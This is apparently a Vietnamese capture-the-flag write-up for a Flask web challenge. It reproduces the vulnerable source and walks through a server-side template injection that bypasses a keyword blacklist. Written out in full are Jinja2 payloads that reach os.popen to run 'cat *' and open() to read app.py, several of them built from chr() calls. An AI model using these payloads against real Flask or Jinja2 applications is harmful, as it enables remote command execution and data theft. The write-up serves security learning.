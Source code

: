 # PRP202

> Một bài hay và cực khó với mình, chả trách người anh T giấu tên cứ bảo làm thử<br>
> 2 ngày để làm, nhiều lần thất bại, nhưng kết quả thật xứng đáng

- Bắt đầu vào bài, tại trang index, Ctrl U lên thấy source code Flask của web

    ```python
        app = Flask(__name__, template_folder="template")
        SESSION_TYPE = "filesystem"
        app.config.from_object(__name__)
        Session(app)
        authCode = "C4n 1 Trust Y0u? Player "


        # Our bot detected that some users had gained access to the system by malicious function, so we decided to ban it.
        blacklist = ["'", '"', "request", "readlines", "+", "%2b", "%22", "%27", "linecache"]


        def authCheck(input):
            if session.get(input) == None:
                return ""
            return session.get(input)


        @app.route("/", methods=["GET", "POST"])
        def index():
            try:
                session.pop("userCode")
                session.pop("winner")
            except:
                pass
            if request.method == "POST":
                ok = request.form["ok"]
                for ban in blacklist:
                    if ban in request.form["name"]:
                        return render_template_string("Hacker Alert!!!")
                session["userCode"] = request.form["name"]
                if ok == "Let's play!":
                    session["check"] = "access"
                    # bypass this? No way haha :D
                    winner = "cocailonditconbamay"
                    session["winner"] = winner
                    return render_template_string(
                        "Generating winner hash...<script>setInterval(function(){ window.location='/doanxem'; }, 500);</script>"
                    )
            return render_template("index.html")


        @app.route("/doanxem", methods=["GET", "POST"])
        def doanxem():
            try:
                if authCheck("check") == "":
                    return render_template_string(authCode + authCheck("userCode"))
                else:
                    if request.method == "POST":
                        winner_input = request.form["winner"]
                        if winner_input == authCheck("winner"):
                            mess = (
                                "You are the real winner!!!!!!!!!! "
                                + authCheck("userCode")
                                + ", here your flag: https://youtu.be/dQw4w9WgXcQ"
                            )
                        elif winner_input != authCheck("winner"):
                            mess = "Wrong! You die!<script>setInterval(function(){ window.location='/choilai'; }, 1200);</script>"
                        return render_template_string(mess)
                    return render_template("doanxem.html")
            except:
                pass
            return render_template_string(authCode + authCheck("userCode"))


        @app.route("/choilai")
        def reset_access():
            try:
                session.pop("check")
                return render_template_string(
                    "You got an Extra Change. Gud luck :D!!!!!!<script>setInterval(function(){ window.location='/'; }, 500);</script>"
                )
            except:
                pass
            return render_template_string(authCode + authCheck("userCode"))


        if __name__ == "__main__":
            app.secret_key = "###########"
            serve(app, host="0.0.0.0", port=8900)
    ```

- Có `render_template_string()` nên rất dễ đoán đây là [SSTI](https://portswigger.net/research/server-side-template-injection)

- Nhưng vì đã bị chặn `request.args` nên chắc phải inject từ một input nào đó :v

- Review lại source code thì ta thấy có 2 chỗ `render_template_string()` cần sử dụng `authCheck("userCode")`, chính là cái tên ta nhập ở index

- Ở `doanxem()` ta thấy `mess` là một đoạn code chuyển hướng sang `/choilai`

- Sang đến `choilai()` thì ta thấy rằng nó sẽ `pop` cái mục `check` của session data, vậy câu hỏi ở đây là, nếu như ta để cho `doanxem` gửi một request sang `/choilai`, nhưng trước khi `/choilai` kịp render, ta drop cái request đó? Tất nhiên cái `session.pop("check")` vẫn được thực thi, nhưng không render. Và nếu ta gửi tiếp một request của `doanxem` vào `/choilai`, điều gì sẽ xảy ra? `session.pop()` sẽ lỗi vì đã pop trước đó, nên giờ không còn gì mà pop, và thay vì render ra chuyển hướng về index, thì đoạn render cuối sẽ được thực thi.

- Đã rõ cách để trigger template, thử nhập `{{7*7}}` ở index và làm các bước như trên:

    ![7*7](img/PRP202_1.png)

- Vậy là đã rõ, bây giờ việc cần làm là tạo ra payload, trước tiên, hãy review cái black list của source code đã:

    ```python
         blacklist = ["'", '"', "request", "readlines", "+", "%2b", "%22", "%27", "linecache"]
    ```

- Đoạn này khá là khó, vì black list chứa những kí tự và từ khóa phổ biến để tạo payload SSTI

- Suy nghĩ mãi làm thế nào để tạo payload thì người anh TungDLM bảo `chr`, sáng dạ thêm một tí

- Cụ thể thì ta sẽ dùng `chr()` để tạo các kí tự trong string và ghép chúng lại, nhưng trước tiên, phải define nó

- Thử nhập `().__class__.__base__.__subclasses__()` để list các subclass và mình thấy, tại vị trí 80 có `<class '_frozen_importlib._ModuleLock'>`, có thể sử dụng nó để define `chr`:

    ```python
        {% set ().__class.__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.chr %}
    ```
- Đoạn này phải cảm ơn 3 chữ `s e t` của anh TaiDH, một pro đã giải bài này trong 15 phút, trước cả mình

- Ok, để đoạn define ở đó, bây giờ đến đoạn payload chính, có rất nhiều hướng làm:

    - Cách của anh TungDLM gợi ý: 

        ```python
            {{cycler.__init__.__globals__.os.popen(().__doc__[36:41].replace(chr(97),chr(99)).replace(chr(114),chr(97)).replace(chr(103),chr(116)).replace(chr(117),chr(32)).replace(chr(109),chr(42))).read()}}
        ```

        Dễ hiểu là, chúng ta sẽ lợi dụng đoạn `__doc__` của `Tuple`, ví `__doc__` là một String nên ta chỉ việc cắt một đoạn của nó ra, `replace()` để thay thế các kí tự, sử dụng `chr()` để thay cho việc dùng `''/""`. Nhờ đó tạo được câu lệnh để `os.open()` thực thi (`cat *`) và in ra tại `read()`

    - Cách của mình (dài và mất não @@):

        ```python
            {{().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.open(chr(97).__add__(chr(112).__add__(chr(112).__add__(chr(46).__add__(chr(112).__add__(chr(121)))))))}}
        ```

        Tại đây mình sử dụng `__add__` để nối các kí tự thành chuỗi và `open()` để mở file, không khuyến khích làm theo, khổ dâm lắm :'( 

- Ok, giờ tạo payload hoàn chỉnh thôi:

    - Payload TungDLM:

        ```python
            {% set chr = ().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.chr %}{{cycler.__init__.__globals__.os.popen(().__doc__[36:41].replace(chr(97),chr(99)).replace(chr(114),chr(97)).replace(chr(103),chr(116)).replace(chr(117),chr(32)).replace(chr(109),chr(42)))}}

        ```

    - Payload của mình:

        ```python
            {% set chr = ().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.chr %}{{cycler.__init__.__globals__.os.popen(().__doc__[36:41].replace(chr(97),chr(99)).replace(chr(114),chr(97)).replace(chr(103),chr(116)).replace(chr(117),chr(32)).replace(chr(109),chr(42)))}}
        ```

- Và có kết quả:

    ![flag](img/PRP202_2.png)

- Flag: `FUSEC{@@@@@@Th3_n3Xt_l3v3l_pL4y!!!!!!!!}`

- Rất có thể có nhiều cách khác, vì anh TungDLM đã để nhả

> Cảm ơn anh TungDLM và anh TaiDH đã hỗ trợ trong quá trình giải bài này

- Qua quá trình làm bài mình đã phải research rất nhiều để tạo payload hoàn chỉnh, dưới đây là một số link mà mình đã tham khảo:

    - https://doantung99.medium.com/fpt-night-wolf-ctf-writeup-de43925ed84b, WU của anh TungDLM trong giải NightWolf-CTF do SAS tổ chức, trong đó có bài XSMB, cùng SSTI tương tự, tại bài đó, anh Tùng có đính kèm 2 link tham khảo
    
    - https://chowdera.com/2020/12/20201221231521371q.html, đây là bài viết mình tham khảo rất rất nhiều, chi tiết và có thêm 3 đoạn code viết bằng python giúp tìm vị trí các class dễ hơn, một số trick bypass filter, nên tham khảo

    - https://portswigger.net/research/server-side-template-injection, đây là bài viết của Jame Kettle về SSTI, nếu nhớ không nhầm chính ông này nghiên cứu ra SSTI, nên đọc nếu chưa biết nhiều về SSTI